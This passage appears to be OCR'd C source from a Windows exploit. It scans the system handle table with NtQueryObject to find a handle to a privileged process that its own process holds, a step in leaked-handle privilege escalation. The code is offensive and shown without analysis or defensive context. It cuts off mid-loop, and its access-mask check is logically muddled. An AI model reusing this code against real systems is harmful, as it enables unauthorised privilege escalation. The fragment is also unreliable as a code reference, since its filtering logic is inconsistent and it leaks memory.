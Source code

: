 ```c

    // iterate handles until we find the privileged process handle
    for (int i = 0; i < phHandleInfo->NumberOfHandles; ++i)
    {
        SYSTEM_HANDLE_TABLE_ENTRY_INFO handle = phHandleInfo->Handles[i];

        // Check if this handle belongs to our own process
        if (handle.UniqueProcessId != dwOwnPID)
            continue;

        objectTypeInfo = (POBJECT_TYPE_INFORMATION) malloc(0x1000);
        if (pNtQueryObject( (HANDLE) handle.HandleValue,
                        ObjectTypeInformation,
                        objectTypeInfo,
                        0x1000,
                        NULL ) != STATUS_SUCCESS)
            continue;

        // skip some objects to avoid getting stuck
        // see: https://github.com/adamdriscoll/PoshInternals/issues/7
        if (handle.GrantedAccess == 0x0012019f
            && handle.GrantedAccess != 0x00120189
            && handle.GrantedAccess != 0x120089
            && handle.GrantedAccess != 0x1A019F ) {
            free(objectTypeInfo);
            continue;
        }

        // get object name information
        objectNameInfo = malloc(0x1000);
        if (pNtQueryObject( (HANDLE) handle.HandleValue,
                        ObjectNameInformation,
                        objectNameInfo,
                        0x1000,
                        &returnLength ) != STATUS_SUCCESS) {

            // adjust the size of a returned object and query again
            objectNameInfo = realloc(objectNameInfo, returnLength);
            if (pNtQueryObject( (HANDLE) handle.HandleValue,
                            ObjectNameInformation,
                            objectNameInfo,
                            returnLength,
                            NULL ) != STATUS_SUCCESS) {
                free(objectTypeInfo);
                free(objectNameInfo);
                continue;
            }
        }

        // check if we've got a process object
        objectName = *(PUNICODE_STRING) objectNameInfo;
        UNICODE_STRING pProcess;

        pRtlInitUnicodeString(&pProcess, L"Process");
        if (pRtlEqualUnicodeString(&objectTypeInfo->TypeName, &pProcess, TRUE)) {
            printf("[+] Found process handle (%x)\n", handle.HandleValue);
            hProc = (HANDLE) handle.HandleValue;
            free(objectTypeInfo);
            free(objectNameInfo);
            break;
        }
        else
            continue;
```